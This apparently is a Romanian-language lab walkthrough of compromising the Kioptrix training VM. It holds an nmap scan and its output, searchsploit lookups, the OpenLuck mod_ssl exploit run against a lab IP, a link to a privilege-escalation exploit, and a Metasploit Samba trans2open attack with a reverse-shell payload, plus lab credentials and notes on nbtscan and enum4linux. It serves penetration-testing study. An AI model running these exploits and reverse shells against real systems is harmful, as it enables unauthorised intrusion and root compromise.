







# Kioptrix:
Credintiale:
```bash
john:TwoCows2
```
## Exploatarea
### Scanarea porturilor deschise:
Rulam nmap cu urmatoarele flaguri. Aici putem sa adaugam si flagul pentru a detecta versiunele la serviciul `-sV`.
```bash
nmap -sS -T4 -p- -A 192.168.1.24
...
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
...
```

Din urmatoarea scanarea posibil puncte slabe
- mod_ssl/2.8.4 OpenSSL/0.9.6b
### Apache exploits:
Facem un search local cu `searchsploit`:
```bash
searchsploit "mod_ssl 2.8.4"
```


Dupa ce am verifica nu am reusit sa gases exploitul dat in `msfconsole` am decis sal caut pe [github](https://github.com/heltonWernik/OpenLuck) 
Pentru a rula exploitul o sa avem nevoie sa depistam ce tip de OS este folosita de masina vulnerabila si versiunea de `Apache`

Cu urmatoarele informatie putem rula si exploitul pentru a verifica daca putem primi un shell:


Rularea data nu a lucrat
```bash
./OpenFuck 0x6a 172.16.49.150
```
Dar a lucrat urmatoarea:


Exploitul localizat cu `searchsploit` se afla pe calea `/usr/share/exploitdb/exploits/unix/remote/47080.c`
Am primit si `shell` dar este o mica problema sa rulat de la utilizatorul `apache` dim motivul ca nu a putut sa descarce alt exploit asta se intampla dim motivul ca nu se face SSL correct 

Acesta este lincul pentru exploitul de [Privilege Escalation](https://pastebin.com/raw/C7v25Xr9):
Mai jos avem si exploatarea pentru a primi `root` manual 


Motivul din care nu primim de odata un shell de la root este banala versiune de `wget` este foarte vechie si nu stie ce este TLSv2-3

### Samba exploits:
Din scanarea nmap observam ca avem si portul 139 care este rezervat pentru `samba` dupa cem putem sa gasim ceva exploituri cu `searchsploit` mai jos putem sa observa ce exploituri am gasit. Dar intrebarea consta daca este posibil de rulat exploiturile date prin `msfconsole` 


Raspunsul este da putem rula `trans2open` prin metasploit si mai mult de atat vom primi si acces ca root dar aici a fost nevoie sa schimb `payload` deoarece sesiunea de `meterpretor` se rupe si nu putem sa primim un shell interactiv.

A fost schimbat in urmatorul:
```bash
set payload linux/x86/shell_reverse_tcp
```


### Tooluri noi depistate:
`nbtscan`               - este un instrument pentru enumerarea NetBIOS în rețele locale Windows/Samba.
Ce face:
- scanează o rețea și descoperă hostnames Windows
- arată NetBIOS names
- arată workgroup / domain
- arată MAC Address
- identifică servere Samba/Windows
- ajută la identificarea sistemelor vulnerabile la SMB

`enum4linux`            - este un script care rulează mai multe comenzi SMB pentru a extrage informații de la servere Windows/Samba.
Ce poate obține:
- Workgroup / Domain
- Lista utilizatorilor
- Lista grupurilor
- Shares (IPC$, ADMIN$, etc.)
- SID domain
- Politici de parolă
- RID cycling (enumerare useri privați)
- OS info (versiune Samba / Windows)